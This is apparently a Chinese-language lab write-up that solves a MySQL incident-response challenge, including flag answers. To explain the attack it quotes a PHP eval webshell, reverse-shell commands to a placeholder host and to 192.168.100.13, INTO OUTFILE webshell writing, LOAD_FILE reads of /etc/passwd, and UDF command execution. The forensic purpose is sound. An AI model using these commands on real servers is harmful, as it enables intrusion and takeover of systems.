

# 第二章日志分析-mysql应急响应

### 一、前言

**题目链接：**​**[第二章日志分析-mysql应急响应](https://xj.edisec.net/challenges/23)**

**三连私信免费送玄机注册邀请码私信！！！看见就回！！注意私信！！**

 **&lt;font color=&quot;#ff0000&quot;&gt;首先简单介绍一下什么是mysql应急响应；&lt;/font&gt;**

**MySQL应急响应是指在MySQL数据库遇到故障、入侵或其他紧急情况时，采取的一系列快速、有效的措施，以确保数据库的完整性、安全性和可用性，这里我们主要分析的是日志信息，里面记录黑客入侵的大部份信息。**

### 二、概览

#### 简介

**mysql应急响应 ssh账号 root  密码 xjmysql**  
**ssh env.xj.edisec.net  -p xxxxx**  
**1.黑客第一次写入的shell flag{关键字符串}**   
**2.黑客反弹shell的ip flag{ip}**   
**3.黑客提权文件的完整路径 md5 flag{md5} 注 /xxx/xxx/xxx/xxx/xxx.xx**  
**4.黑客获取的权限 flag{whoami后的值}**

### 三、参考文章

[【玄机靶场】第二章日志分析-mysql应急响应](https://blog.csdn.net/yujiahui0203/article/details/139074400)

[玄机-第二章日志分析-mysql应急响应](https://blog.csdn.net/JACKBREAK/article/details/139037618)

### 四、步骤（解析）

##### 准备工作#1.0

**使用Xshell连接靶机；（直接新建或者SSH连接，接着正常输入账户密码即可，这里不再多强调）**

​​

**使用Xftp连接靶机，导出源码，以便我们更好使用“工具”查杀webshell；（也是正常新建连接输出账号密码找到web根目录全部导出即可）**

**注意这里是靶机的端口号；**

​​

**找到目录位置，右键传输即可；（推荐桌面，扫完就删）**

​​

**那有的人就要问了，为什么是web根目录而不是其它目录？（之前文章也没有详细说明过，那这里简单分析一下）**

1. **全面扫描**

WebShell通常是攻击者上传到Web服务器上的恶意脚本文件。导出Web服务器的根目录能够确保全面扫描所有可能的文件和子目录，防止遗漏任何潜在的恶意文件。

2. **特定路径**

攻击者往往会将WebShell上传到某个具体的路径下，通过导出根目录，可以清晰地看到所有目录结构和文件，方便查找异常文件或文件夹。

3. **分析文件变化**

通过导出根目录，可以对比文件的创建和修改时间，查找最近发生变化的文件。这些文件很可能包含恶意代码。

4. **文件名特征**

很多WebShell文件会有一些常见的特征，比如特定的文件名、扩展名（如`.php`​、`.jsp`​等）或伪装成正常文件。导出根目录后，可以通过脚本或手动查找这些特征。

5. **权限和属性**

导出根目录的文件列表可以帮助管理员查看文件的权限和属性。异常的文件权限设置（如可执行权限）可能提示该文件存在问题。

**简单解释Web服务器的根目录通常是存放网站文件的主要目录，不同的Web服务器有不同的默认根目录位置。**

  **Apache HTTP Server**

* **默认根目录**：`/var/www/html`​
* **配置文件**：`/etc/httpd/conf/httpd.conf`​ 或 `/etc/apache2/apache2.conf`​

#### 步骤#1.1

##### 1.黑客第一次写入的shell flag{关键字符串}

解题思路

让我们找黑客写入的shell，这题如果之前有看过我的文章：[第一章 应急响应-webshell查杀](https://blog.csdn.net/administratorlws/article/details/139521078?spm=1001.2014.3001.5501)就应该知道找shell，那这里我们还是继续分析，老规矩嘛先找代码特征；

**首先就是可疑函数调用**

WebShell通常会使用一些危险的函数来执行系统命令或代码，如：

> PHP: eval(), system(), exec(), shell_exec(), passthru(), assert(), base64_decode()  
> ASP: Execute(), Eval(), CreateObject()  
> JSP: Runtime.getRuntime().exec()

**接着就是编码和解码**

WebShell经常使用编码和解码技术来隐藏其真实意图，如Base64编码：

> eval(base64_decode('encoded_string'));

**文件操作**

WebShell可能会包含文件操作函数，用于读取、写入或修改文件：

> PHP: fopen(), fwrite(), file_get_contents(), file_put_contents()  
> ASP: FileSystemObject

**网络操作**

WebShell可能会包含网络操作函数，用于与远程服务器通信：

> PHP: fsockopen(), curl_exec(), file_get_contents('http://...')  
> ASP: WinHttp.WinHttpRequest

**那这里我们可以先直接定位一些特殊的文件后缀：.asp、.php、.jsp、.aspx。**

**常用命令总结：**

> //搜索目录下适配当前应用的网页文件，查看内容是否有Webshell特征  
> find ./ type f -name " *.jsp&quot; | xargs grep &quot;exec(&quot;find ./ type f -name &quot;* .php" | xargs grep "eval("  
> find ./ type f -name " *.asp&quot; | xargs grep &quot;execute(&quot;find ./ type f -name &quot;* .aspx" | xargs grep "eval("

//对于免杀Webshell，可以查看是否使用编码  
find ./ type f -name "*.php" | xargs grep "base64_decode"

**那这里我们直接挨个尝试即可；**

​​

得到；

> ./var/www/html/sh.php:1	2	<?php @eval($_POST['a']);?>	4

**那有的人就要问了，圈起来的是不是报错了？**

**简单来说命令中，**​**​`find`​**​**命令会遍历整个文件系统，包括受限的系统目录（如**​ **​`/proc`​**​ **），从而导致“Permission denied”错误。（简而言之，影响不是很大，大家可以放心哈，达到目的即可）**

那这里既然发现了位置，那就跟进分析；

​​

**题目让我们提交关键字符窜，下面刚刚好有一行注释的，尝试提交，发现正确；**

	flag{ccfda79e-7aa1-4275-bc26-a6189eb9a20b}

###### 拓展1.1

**工具查杀webshell**

这题同样也是可以使用工具排查webshell，原理很简单，刚刚我们已导出源码，直接丢进查杀webshell工具进行查杀即可，这里我使用的是D盾；

**[D盾](https://www.d99net.net/)**

​​

**[河马](https://n.shellpub.com/)**​ **（注意需要先压缩html）**

​​

**类似的例子很多都可导出源码丢进工具进行查杀webshell，这里不在进行举例；**

#### 步骤#1.2

##### 2.黑客反弹shell的ip flag{ip}

解题思路

让我们找出黑客反弹shell的ip是什么，那我们先简单了解一下反弹shell的原理，反弹Shell（Reverse Shell）的原理是攻击者通过在目标系统上运行恶意代码，使得目标系统主动与攻击者的控制服务器建立连接，从而绕过防火墙和其他安全措施。

**反弹Shell的工作原理**

1. **攻击者准备监听**：攻击者在其控制的服务器上启动一个监听程序（通常是一个Netcat或类似工具），等待目标系统主动连接。

    ​`nc -lvp 4444`​

    这里，`-l`​表示监听模式，`-v`​表示冗长输出，`-p`​指定端口。
2. **目标系统执行恶意代码**：攻击者通过漏洞利用、社交工程等手段，在目标系统上执行恶意代码。这段代码会打开一个Shell，并尝试连接攻击者的服务器。

    ​`/bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1`​

    这个命令的作用是通过TCP连接攻击者的IP地址和端口，并将输入和输出重定向到这个连接上。
3. **建立连接**：目标系统主动向攻击者的服务器发起连接请求。由于是目标系统主动连接，一般不会被防火墙阻拦。
4. **攻击者获得Shell访问**：一旦连接建立，攻击者就可以在其控制服务器上得到一个远程Shell，能够像在本地终端一样执行命令，控制目标系统。

那这里要找出黑客反弹的shell，我们可以通过查看日志进行分析；

**基本步骤；**

* **检查日志文件**：查看MySQL的日志文件，特别是查询日志和错误日志。这些日志可以提供关于执行的查询和任何异常情况的信息。

  * 查询日志：记录所有的查询，包括成功和失败的查询。
  * 错误日志：记录MySQL服务器的错误、警告和通知。

  这些日志通常位于`/var/log/mysql/`​目录下。
* **检查审计日志**：如果启用了审计插件，可以查看审计日志。MySQL Enterprise Edition包含一个审计插件，可以记录所有SQL查询。
* **检查连接历史**：检查MySQL中的连接历史，找出哪些IP地址连接过数据库。可以通过查询`information_schema.processlist`​或`performance_schema`​来获取连接信息。
* **检查特定的表和列**：查找数据库中是否有存储和执行恶意命令的痕迹，例如`system`​或`exec`​等。

**那这里我们就直接分析mysql的日志；（/var/log/mysql/）**

​​

**只发现一个记录报错的日志，error.log，那我们来简单分析一下；**

​​

**这里得出的信息不是很多，所以我们往下慢慢分析即可；（需要耐心仔细观察）**

​​

得到；

	/tmp/1.sh: line 1: --2023-08-01: command not found  
	/tmp/1.sh: line 2: Connecting: command not found  
	/tmp/1.sh: line 3: HTTP: command not found  
	/tmp/1.sh: line 4: Length:: command not found  
	/tmp/1.sh: line 5: Saving: command not found  
	/tmp/1.sh: line 7: 0K: command not found  
	/tmp/1.sh: line 9: syntax error near unexpected token `(' 	/tmp/1.sh: line 9: `​2023-08-01 02:16:35 (5.01 MB/s) - '1.sh' saved [43/43]'

简单分析一下；

**这段日志表明有人尝试在MySQL服务器上执行一个位于/tmp/1.sh的shell脚本，但是该脚本的内容并非有效的shell命令或脚本格式，而是看起来像HTTP响应或者是一个下载日志的内容。每行的错误信息，如command not found，指出脚本中的每一行都被解释器当作命令来尝试执行，但由于这些行实际上是HTTP响应的一部分（例如日期、状态信息、长度描述等），shell无法识别并执行它们，从而导致了一系列的错误。**

**发现日志中**  **​`/tmp/1.sh`​**​ **脚本的执行错误，发现后面也是由这个文件引起的一系列报错信息，那这里我们就可以尝试定位这个文件，看看里面到底是什么为什么会引起那么多报错信息；**

​​

**同样在mysql目录也发现了此文件，那我们先跟进tmp/1.sh进行分析；**

​​

得到；

> bash -i >&/dev/tcp/192.168.100.13/777 0>&1root@xuanji:/tmp#

**简单分析一下；**

首先可以确认这就是一段反弹Shell的命令脚本；

**命令解析**

1. ​**​`bash -i`​**​：

    * 以交互模式启动一个新的Bash Shell。`-i`​参数表示交互式Shell，这样可以确保Shell会读取并执行启动文件，如`.bashrc`​。
2. ​ **​`>& /dev/tcp/192.168.100.13/777`​**​：

    * 使用Bash的特殊文件重定向语法，通过TCP连接到IP地址`192.168.100.13`​和端口`777`​。
    * ​`>&`​ 表示将标准输出（stdout）和标准错误（stderr）都重定向到 `/dev/tcp/192.168.100.13/777`​，这个特殊文件实际上是在通过TCP连接发送数据。
3. ​**​`0>&1`​**​：

    * 将标准输入（stdin）重定向到标准输出（stdout），这样可以将所有输入从TCP连接中读取并执行。

**最后题目只让我们提交IP即可；**

	flag{192.168.100.13}

#### 步骤#1.3

##### 3.黑客提权文件的完整路径 md5 flag{md5} 注 /xxx/xxx/xxx/xxx/xxx.xx

解题思路

让我们提交黑客提权文件的完整路径最后进行MD5加密进行提交flag，那首先了解一下常用的提权方式有哪一些；

**在 MySQL 提权攻击中，最常用的一些方法包括利用** **​`INTO OUTFILE`​**​ **写入文件、利用** **​`LOAD_FILE`​**​ **读取文件，以及利用 UDF（用户定义函数）执行系统命令。这些方法因其简单高效、攻击面广而被广泛采用。**

1. **利用** **​`INTO OUTFILE`​**​ **写入文件**

​`INTO OUTFILE`​ 是 MySQL 提供的一个功能，允许将查询结果写入服务器上的文件。如果攻击者能成功利用这个功能，他们可以将恶意代码写入 Web 服务器目录，生成一个 Web Shell。

**示例：**

​`SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';`​

这个命令将在 `/var/www/html/`​ 目录下创建一个名为 `shell.php`​ 的文件，包含一个简单的 Web Shell，攻击者可以通过访问该文件执行任意系统命令。

2. **利用** **​`LOAD_FILE`​**​ **读取文件**

​`LOAD_FILE`​ 是 MySQL 提供的另一个功能，允许读取服务器上的文件内容。攻击者可以利用这个功能读取敏感文件，如系统密码文件 `/etc/passwd`​。

**示例：**

​`SELECT LOAD_FILE('/etc/passwd');`​

这个命令会返回 `/etc/passwd`​ 文件的内容，其中包含所有用户的信息。

3. **利用 UDF 执行系统命令**

UDF（用户定义函数）允许用户扩展 MySQL 的功能。如果攻击者可以将恶意的共享库上传到服务器，他们可以利用 UDF 执行任意系统命令。

**示例步骤：**

1. 上传恶意共享库 `lib_mysqludf_sys.so`​ 到 MySQL 服务器的插件目录。
2. 创建 UDF 函数：

    ​`CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';`​
3. 使用 UDF 执行系统命令：

    ​`SELECT sys_exec('id > /tmp/output.txt');`​

这个命令将在 `/tmp`​ 目录下创建一个文件 `output.txt`​，其中包含执行 `id`​ 命令的结果。

4. **常用方法总结**

* ​**​`INTO OUTFILE`​**​ **写入文件**：常用于创建 Web Shell 或写入恶意脚本。
* ​**​`LOAD_FILE`​**​ **读取文件**：常用于读取敏感文件，进行信息收集。
* **UDF 执行系统命令**：常用于执行任意系统命令，获取更高权限。

> 那这里最符合当下情况的也就只有UDF提权方式，那这里我们思路就简单多了，既然要提权，肯定是已经知道了账号密码这点肯定不用多说，那这里如果之前做过CTF中的web可能就可以想到web目录下肯定是有页面泄露了mysql的账号密码；

**那我们这里直接跟进到目录/var/www/html定位账号“root”看看我们能不能发现密码，也来验证一遍我们的猜想；（思路不唯一）**

	find ./ -name "*.php" | xargs grep "root"

​​

得到；

> ./common.php:$conn=mysqli_connect("localhost","root","334cc35b3c704593","cms","3306");

简单分析一下；

**这段代码用于连接 MySQL 数据库，具体参数如下：**

*  **&quot;localhost&quot;** ：数据库服务器地址，这里是本地主机。
*  **&quot;root&quot;** ：数据库用户名。
*  **&quot;334cc35b3c704593&quot;** ：数据库密码。
*  **&quot;cms&quot;** ：数据库名称。
*  **&quot;3306&quot;** ：数据库端口号。

确实发现了common.php文件泄露的账号密码，那这里我们话不多说直接连上数据库简单分析一下；

**连接数据库命令：**

	mysql -uroot -p334cc35b3c704593

-u：用户  
-p：密码

​​

**进去之后肯定就是简单查看一下当前mysql的设置，因为这样可以更好的了解黑客到底有没有进行UDF提权，以便验证一下我们的猜想；**

使用命令；

	show global variables like '%secure%';

得到；

​​

简单分析一下；

​`show global variables like '%secure%';`​ 是一条 MySQL 查询命令，用于显示与 "secure" 相关的全局变量及其当前设置。通过查看这些变量的配置，可以帮助我们了解 MySQL 服务器的安全性设置和限制。

执行这条命令的结果可能类似于以下内容：

	+----------------------------+------------------------+  
	| Variable_name              | Value                  |  
	+----------------------------+------------------------+  
	| require_secure_transport   | OFF                    |  
	| secure_auth                | ON                     |  
	| secure_file_priv           | /var/lib/mysql-files/  |  
	+----------------------------+------------------------+

变量分析

1. **require_secure_transport**

    * **解释**：此变量指定是否强制使用安全连接（如 SSL/TLS）来连接 MySQL 服务器。
    * **值**：

      * ​`ON`​：强制所有连接使用 SSL/TLS。
      * ​`OFF`​：不强制使用 SSL/TLS。
    * **安全性**：建议设置为 `ON`​，以确保所有客户端连接使用加密传输，保护数据的传输安全。
2. **secure_auth**

    * **解释**：此变量控制是否要求客户端使用更安全的密码认证方式。
    * **值**：

      * ​`ON`​：强制使用 mysql_native_password 或更强的身份验证插件。
      * ​`OFF`​：允许使用旧的（不安全的）认证方式。
    * **安全性**：建议设置为 `ON`​，以避免使用不安全的旧认证方式。
3. **secure_file_priv**

    * **解释**：此变量指定 MySQL 服务器可以访问的目录，以执行 LOAD DATA INFILE 和 SELECT INTO OUTFILE 语句。这一变量限制了文件操作的目录范围，防止文件被不当读取或写入。
    * **值**：

      * 路径（如 `/var/lib/mysql-files/`​）：只允许在指定目录下进行文件操作。
      * 空字符串：禁止所有文件操作。
      * ​`NULL`​：没有限制。
    * **安全性**：建议设置为指定的安全目录或空字符串，以限制 MySQL 的文件操作范围，减少潜在的文件操作安全风险。

**内容分析；**

	+------------------+-------+  
	| Variable_name    | Value |  
	+------------------+-------+  
	| secure_auth      | OFF   |  
	| secure_file_priv |       |  
	+------------------+-------+  
	2 rows in set (0.00 sec)

​`secure_file_priv`​ 变量为空意味着 MySQL 没有对文件操作进行限制。这就是黑客利用进行 UDF (User Defined Functions) 提权，因为他们可以将任意的共享库文件（例如 `.so`​ 文件）上传到服务器并通过 MySQL 加载执行。

在啰嗦一下；

1. **什么是 UDF 提权？**

UDF 提权是利用 MySQL 的用户定义函数进行权限提升的攻击方法。攻击者可以编写恶意的 UDF 插件，并将其加载到 MySQL 中，从而执行系统级别的命令。

2. ​**​`secure_file_priv`​**​ **为空的风险**

​`secure_file_priv`​ 变量用于限制 MySQL 服务进程访问文件系统的能力。具体来说，它定义了允许 LOAD DATA 和 SELECT ... INTO OUTFILE 操作的路径。如果这个变量为空，表示 MySQL 可以访问服务器上的任何路径，没有任何限制。

3. **为什么会导致 UDF 提权？**

* **文件写入**：攻击者可以利用 MySQL 的 `SELECT ... INTO OUTFILE`​ 语句将恶意的 `.so`​ 文件写入服务器文件系统的任意位置。
* **UDF 加载**：然后，攻击者可以通过 `CREATE FUNCTION`​ 语句将该恶意文件作为 UDF 插件加载到 MySQL 中。

**那这里我们已经确认的不能在确认是UDF提取了，那这时候我们就需要UDF提权到底会在什么地方留下痕迹呢？**

在进行 UDF (User Defined Function) 提权时，攻击者通常会将恶意共享库文件放在 MySQL 插件目录中。这个目录的默认路径通常是 `/usr/lib/mysql/plugin/`​，但具体路径取决于 MySQL 的安装和配置。（一般来说就是这个目录，没人闲着会去移动）

**那为什么攻击者会使用**  **​`/usr/lib/mysql/plugin/`​** ​ **目录？**

1. **默认插件目录**：

    * ​`/usr/lib/mysql/plugin/`​ 是 MySQL 的默认插件目录，MySQL 有权限加载和执行该目录中的共享库文件。
2. **加载插件的需求**：

    * 插件必须放置在 MySQL 的插件目录中，才能被 MySQL 识别和加载。攻击者通过将恶意 `.so`​ 文件放入该目录，实现提权。
3. **权限管理**：

    * 由于 MySQL 服务运行时需要访问插件目录，通常该目录的权限设置相对宽松，允许 MySQL 服务有读写权限。

**那我们就跟进目录进行分析；（/usr/lib/mysql/plugin/）**

Ctrl+c退出数据库；

进入/usr/lib/mysql/plugin/目录下；

​​

**发现关键，这个目录是mysql存放用户自定义函数的，打算这里出现了一个udf.so文件，所以就可以断定这就是有人写入了一个自定义的函数到库中；**

从权限也是同样可以看出；（ls -la）

​​

**题目让我们提权提权文件的具体路径并且进行MD5加密；**

所以，路径：/usr/lib/mysql/plugin/udf.so

进行MD5加密；

[在线MD5](https://www.sojson.com/md5/)

​​

最后；

	flag{B1818BDE4E310F3D23F1005185B973E7}

###### 拓展1.2

以下是一个典型的 UDF 提权攻击步骤：

1. **编写恶意 UDF 插件**：攻击者编写一个 `.so`​ 文件，该文件包含恶意代码。
2. **上传恶意插件**：利用 MySQL 的文件操作功能将该文件上传到服务器上的某个路径。

    ​`SELECT '' INTO OUTFILE '/path/to/your/udf.so';`​
3. **创建 UDF 函数**：使用 `CREATE FUNCTION`​ 命令将这个共享库文件加载为 MySQL 的 UDF 函数。

    ​`CREATE FUNCTION do_system RETURNS INTEGER SONAME 'udf.so';`​
4. **执行命令**：调用这个 UDF 函数执行系统命令。

    ​`SELECT do_system('id');`​

**检查和防护措施**

1. **检查 UDF 函数**：查看是否存在异常的 UDF 函数。

    ​`SELECT * FROM mysql.func;`​
2. **限制** **​`secure_file_priv`​**​：将 `secure_file_priv`​ 设置为一个特定的路径，限制 MySQL 文件操作的范围。

    ​`secure_file_priv = /var/lib/mysql-files`​
3. **移除不需要的 UDF 函数**：删除所有可疑的 UDF 函数。

    ​`DROP FUNCTION IF EXISTS do_system;`​
4. **权限控制**：严格控制数据库用户的权限，避免赋予不必要的权限，特别是文件操作和创建函数的权限。
5. **日志监控**：定期检查 MySQL 日志文件，关注异常的文件操作和函数创建活动。

#### 步骤#1.4

##### 4.黑客获取的权限 flag{whoami后的值}

解题思路

**让我们提交黑客获取的权限，那黑客既然使用hacker进行了提权，那他在库中肯定写入了自定义函数，我们去数据库中查询一下新增的函数有那些，在次之前可以简单分析进程看看有什么线索；**

	ps -aux

​​

得到；

> mysql        364  0.0  1.6 619976 63956 ?        Sl   04:55   0:02 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=mysql

 **进程显示 MySQL 服务器进程正在运行，它于 12:10 启动，使用了指定的配置目录、数据目录和插件目录，发现目录就是UDF使用提取的目录，暂时也不是很确认，我们可以进入数据库进行分析进一步确认；**

**UDF 提权的典型痕迹**

1. **异常的**  **​`.so`​**​ **文件**：（上面也有提到）

    * 检查这些目录下是否有最近创建的 `.so`​ 文件，特别是名字看起来可疑或不符合系统文件命名规范的文件。
2. **MySQL 日志**：

    * 检查 MySQL 日志文件（如 `mysql.log`​ 或 `error.log`​）中是否有异常的文件操作记录或 `CREATE FUNCTION`​ 语句。
3. **MySQL 函数表**：

    * 检查 `mysql.func`​ 表中是否有异常的 UDF 函数。

    ​`SELECT * FROM mysql.func;`​

使用命令；

	SELECT * FROM mysql.func;

**检查** **​`mysql.func`​**​ **表中是否有异常的 UDF 函数，同样这个表会查询到新增函数；**

​​

得到；

	+----------+-----+-------------+----------+  
	| name     | ret | dl          | type     |  
	+----------+-----+-------------+----------+  
	| sys_eval |   0 | mysqludf.so | function |  
	+----------+-----+-------------+----------+  
	1 row in set (0.00 sec)

**所以sys_eval就是黑客新增的函数，接着题目让我们提交whoami后的值所以这里我们直接查询即可；**

使用命令；

	select sys_eval('whoami');

简单分析；

* **UDF（User Defined Function）** ：

  * UDF 是 MySQL 提供的一种扩展机制，允许用户创建自己的函数。这些函数可以用 C/C++ 语言编写，并且可以在 MySQL 中像内置函数一样使用。
  * ​`sys_eval`​ 是一个典型的自定义函数（不必多说），旨在通过 MySQL 执行系统命令。
* ​**​`whoami`​**​ **命令**：（题目要求）

  * ​`whoami`​ 是一个 Unix/Linux 命令，用于返回当前执行命令的用户名称。
  * 在 MySQL 中调用 `sys_eval('whoami')`​ 实际上是让 MySQL 服务器在操作系统上执行 `whoami`​ 命令，并返回结果。
* **命令执行过程**：（最后结果）

  * 当 MySQL 执行 `select sys_eval('whoami');`​ 时，它调用 UDF `sys_eval`​，传入参数 `whoami`​。
  * ​`sys_eval`​ 函数执行 `whoami`​ 命令，并捕获其输出。
  * MySQL 返回 `whoami`​ 命令的输出，即运行 MySQL 服务器进程的用户名称。

得到；

​​

所以最后；

	flag{mysql}

‍
